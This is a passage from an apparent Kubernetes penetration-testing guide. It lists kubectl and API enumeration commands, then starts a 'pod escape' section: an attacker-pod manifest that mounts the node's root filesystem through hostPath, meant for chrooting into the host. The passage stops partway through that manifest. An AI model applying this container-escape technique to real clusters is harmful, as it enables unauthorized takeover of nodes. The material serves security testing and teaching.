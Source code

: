 ### Get cronjob

Cron jobs allows to schedule using crontab like syntax the launch of a pod that will perform some action.

{% tabs %}
{% tab title="kubectl" %}
```
k get cronjobs
```
{% endtab %}

{% tab title="API" %}
```bash
curl -v https://$APISERVER/apis/batch/v1beta1/namespaces/<namespace>/cronjobs
```
{% endtab %}
{% endtabs %}

### Get "all"

{% tabs %}
{% tab title="kubectl" %}
```
k get all
```
{% endtab %}
{% endtabs %}

### **Get Pods consumptions**

{% tabs %}
{% tab title="kubectl" %}
```
k top pod --all-namespaces
```
{% endtab %}
{% endtabs %}

### Escaping from the pod

If you are able to create new pods you might be able to escape from them to the node. In order to do so you need to create a new pod using a yaml file, switch to the created pod and then chroot into the node's system. You can use already existing pods as reference for the yaml file since they display existing images and pathes.

```bash
kubectl get pod <name> [-n <namespace>] -o yaml
```

Then you create your attack.yaml file

```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: ubuntu
    imagePullPolicy: Always
```